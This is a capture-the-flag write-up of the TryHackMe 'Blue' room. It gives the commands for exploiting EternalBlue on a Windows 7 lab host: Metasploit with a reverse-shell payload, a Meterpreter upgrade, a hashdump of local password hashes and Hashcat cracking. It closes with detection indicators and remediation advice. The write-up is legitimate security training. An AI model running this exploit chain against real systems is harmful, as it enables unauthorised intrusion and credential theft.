# CTF Writeup 34 — TryHackMe: Blue (EternalBlue / MS17-010)

**Date:** 02/05/2026
**Platform:** TryHackMe — Blue
**Category:** Exploitation / Privilege Escalation / Credential Dumping
**Tools:** Nmap, Metasploit, Meterpreter, Hashcat
**Attacker:** TryHackMe AttackBox
**Target:** 10.128.168.67 — Windows 7 (unpatched)

---

## Objective

Exploit a Windows 7 machine vulnerable to MS17-010 (EternalBlue) using
Metasploit. Escalate to SYSTEM, dump credentials, crack the recovered hash,
and locate three hidden flags across the filesystem.

---

## Background

EternalBlue (CVE-2017-0144) is a critical vulnerability in the Windows SMB v1
protocol, leaked from the NSA in 2017. It allows unauthenticated remote code
execution by sending a specially crafted packet to port 445. EternalBlue was
the propagation mechanism behind WannaCry and NotPetya — two of the most
damaging ransomware campaigns in history. Despite being patched in MS17-010
(March 2017), unpatched Windows 7 systems remain common in enterprise
environments and are still encountered in penetration tests.

---

## Lab Setup

Room started on TryHackMe. Target machine launched via the room interface.
No credentials provided — this is an unauthenticated exploit.

---

## Part A — Reconnaissance

An Nmap scan was run against the target to identify open ports and the
operating system.

```
nmap 10.128.168.67
```

| Flag | Value | Purpose |
|------|-------|---------|
| (none) | Default scan | SYN scan of top 1000 ports |

### Screenshot — Nmap Scan Results



Three ports under 1000 were identified as open. The target was confirmed as
a Windows host running SMB — consistent with a system potentially vulnerable
to EternalBlue.

Next, the Nmap vulnerability script was run to confirm MS17-010:

```
nmap --script smb-vuln-ms17-010 -p 445 10.128.168.67
```

| Flag | Value | Purpose |
|------|-------|---------|
| `--script` | smb-vuln-ms17-010 | Run the EternalBlue detection script |
| `-p 445` | SMB port | Target only the SMB service |

### Screenshot — Vulnerability Confirmed



Target confirmed vulnerable to MS17-010. Proceeding to exploitation.

---

## Part B — Exploitation with EternalBlue

Metasploit was launched and the EternalBlue module located.

```
msfconsole
search ms17-010
```

### Screenshot — Searching for EternalBlue in Metasploit



The module `exploit/windows/smb/ms17_010_eternalblue` was selected and
configured.

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.128.168.67
set PAYLOAD windows/x64/shell/reverse_tcp
run
```

| Option | Value | Purpose |
|--------|-------|---------|
| `RHOSTS` | 10.128.168.67 | Target IP |
| `PAYLOAD` | windows/x64/shell/reverse_tcp | Staged reverse shell |

### Screenshot — RHOSTS Set and Exploit Running



### Screenshot — Reverse Shell Established



A reverse shell was obtained. The session was backgrounded to upgrade it to
a full Meterpreter session for richer post-exploitation capability.

---

## Part C — Shell Upgrade to Meterpreter

A basic reverse shell has limited functionality. The `shell_to_meterpreter`
post module upgrades an existing shell session to a full Meterpreter session
in memory.

```
background
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
```

| Command | Purpose |
|---------|---------|
| `background` | Suspend current session without closing it |
| `shell_to_meterpreter` | Upgrade shell to in-memory Meterpreter |
| `set SESSION 1` | Target the backgrounded shell session |

### Screenshot — Searching shell_to_meterpreter



### Screenshot — Meterpreter Session Obtained



Full Meterpreter session established.

---

## Part D — Process Migration

Meterpreter sessions can be unstable if running under a short-lived process.
Migrating to a stable SYSTEM-level process ensures persistence and often
grants SYSTEM privileges if not already held.

```
ps
migrate <PID of stable process>
```

| Command | Purpose |
|---------|---------|
| `ps` | List all running processes with PID and owner |
| `migrate` | Move Meterpreter into the target process |

### Screenshot — Process List



A stable SYSTEM-owned process (such as spoolsv.exe or winlogon.exe) was
selected for migration. After migration, `getuid` confirmed SYSTEM-level access.

---

## Part E — Credential Dumping and Hash Cracking

With SYSTEM privileges, `hashdump` extracts all local account NTLM hashes
from the SAM database.

```
hashdump
```

### Screenshot — Hashdump Output



Jon's NTLM hash was recovered. The hash was saved to a file and cracked using
Hashcat with rockyou.txt.

```
hashcat -m 1000 -a 0 jon.hash /usr/share/wordlists/rockyou.txt
```

| Flag | Value | Purpose |
|------|-------|---------|
| `-m 1000` | NTLM | Windows local account hash format |
| `-a 0` | Straight | Sequential wordlist attack |
| `jon.hash` | Hash file | Contains Jon's recovered NTLM hash |

### Screenshot — Jon's Hash Cracked



Jon's password recovered successfully from rockyou.txt.

---

## Part F — Flag Recovery

Three flags were hidden across the filesystem. Meterpreter's `search` command
located each one.

```
search -f flag*.txt
cat "C:\[path]\flag1.txt"
cat "C:\[path]\flag2.txt"
cat "C:\[path]\flag3.txt"
```

### Screenshot — Flag 1



Flag 1 located at the root of the filesystem — a common location for flags
placed by room creators to reward initial access.

### Screenshot — Flag 2



Flag 2 located in a directory associated with Windows password storage —
rewarding credential access.

### Screenshot — Flag 3



Flag 3 located in a directory commonly used for document storage — rewarding
thorough filesystem enumeration.

---

## Attack Chain Summary

```
Nmap scan → 3 ports identified, MS17-010 confirmed vulnerable
    → Metasploit EternalBlue → unauthenticated reverse shell (SYSTEM)
        → shell_to_meterpreter → in-memory Meterpreter session
            → process migration → stable SYSTEM process
                → hashdump → Jon's NTLM hash extracted
                    → Hashcat + rockyou.txt → plaintext recovered
                        → filesystem search → 3 flags captured
```

---

## Real-World Relevance

EternalBlue remains one of the most consequential vulnerabilities ever
discovered. WannaCry (May 2017) used it to infect over 200,000 systems across
150 countries in 24 hours, causing an estimated $4 billion in damages. The
exploit requires no credentials and no user interaction — a single exposed
port 445 on an unpatched host is sufficient for full SYSTEM compromise. In
2026, unpatched Windows 7 systems still appear in penetration tests, typically
in OT/ICS environments or legacy infrastructure that cannot be easily updated.

---

## Analyst View

A SOC analyst would see several high-confidence signals in this attack
sequence. An inbound connection to port 445 from an external or unexpected IP
followed by a new outbound connection (the reverse shell callback) is a strong
composite indicator. LSASS/SAM access (hashdump) would trigger EDR alerts.
The SMB exploit itself generates malformed packet alerts in IDS signatures —
Suricata's ET ruleset includes dedicated MS17-010 detection (as demonstrated
in Exercise 25).

---

## Indicators / IOCs

| Indicator | Type | Value | Severity |
|-----------|------|-------|----------|
| Inbound SMB from unexpected IP | Network | Port 445 | Critical |
| MS17-010 exploit packet | Network | Malformed SMB packet | Critical |
| New outbound connection post-exploit | Network | Reverse shell callback | Critical |
| SAM database access | Host | hashdump / LSASS access | Critical |
| Unpatched Windows 7 | Configuration | MS17-010 not applied | Critical |

---

## Escalation / Remediation

1. Isolate the affected host immediately — EternalBlue gives full SYSTEM
   access with no credentials, meaning the entire machine is compromised.
2. Apply MS17-010 patch immediately on all affected systems. If patching is
   not possible, disable SMBv1 via PowerShell:
   `Set-SmbServerConfiguration -EnableSMB1Protocol $false`
3. Block inbound port 445 at the perimeter firewall — SMB should never be
   exposed externally.
4. Force password reset for all local accounts on the compromised host — all
   hashes extracted via hashdump must be treated as compromised.
5. Conduct a lateral movement investigation — SYSTEM access on one host often
   means credential reuse risk across the environment.

---

## Recommendation

- **Patch immediately** — MS17-010 has been available since March 2017. Any
  unpatched host in 2026 represents a critical unmanaged risk.
- **Disable SMBv1** across the environment — it has no legitimate modern use
  case and multiple critical vulnerabilities beyond EternalBlue.
- **Block port 445 at the perimeter** — SMB is an internal protocol and
  should never be reachable from the internet or untrusted networks.
- **NTLM hashes are as good as passwords** — hashdump output should be
  treated with the same urgency as plaintext credential exposure. Pass-the-Hash
  attacks require no cracking.
- **Windows 7 end-of-life** (January 2020) means no further security patches
  will be issued — any remaining Windows 7 hosts are permanently unpatched
  against all vulnerabilities discovered since that date.
